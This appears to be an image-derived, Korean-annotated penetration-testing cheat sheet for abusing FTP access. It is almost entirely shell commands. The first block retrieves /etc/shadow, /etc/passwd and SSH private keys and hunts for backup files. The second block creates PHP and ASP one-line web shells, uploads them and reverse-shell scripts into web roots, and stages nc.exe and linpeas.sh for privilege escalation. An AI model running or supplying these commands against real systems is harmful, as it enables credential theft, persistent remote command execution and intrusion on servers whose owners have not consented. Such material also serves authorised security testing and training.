 ```bash
ls -la

# 중요 파일 다운로드
get /etc/passwd
get /etc/shadow
get /etc/group
get /etc/hosts
get /root/.ssh/id_rsa
get /home/*/.ssh/id_rsa

# 웹 루트 확인 (웹 서비스가 있는 경우)
cd /var/www
ls -la
cd /var/www/html
ls -la
cd /htdocs
ls -la

# 백업 파일 검색
ls *.bak
ls *.backup
ls *.old
ls *.txt
ls *.zip
ls *.tar.gz
```

### 📤 업로드 권한 있는 경우

```bash
# 업로드 테스트
echo "test file" > test.txt
put test.txt
ls -la

# 웹쉘 업로드 (웹 서비스와 연계)
# PHP 웹쉘
echo '<?php system($_GET["cmd"]); ?>' > shell.php
put shell.php /var/www/html/shell.php

# ASP 웹쉘
echo '<%eval request("cmd")%>' > shell.asp
put shell.asp /var/www/shell.asp

# 리버스쉘 스크립트 업로드
put reverse-shell.php /var/www/html/
put reverse-shell.aspx /var/www/html/

# 실행 가능한 파일 업로드
put nc.exe /tmp/
put linpeas.sh /tmp/
chmod +x /tmp/linpeas.sh
```
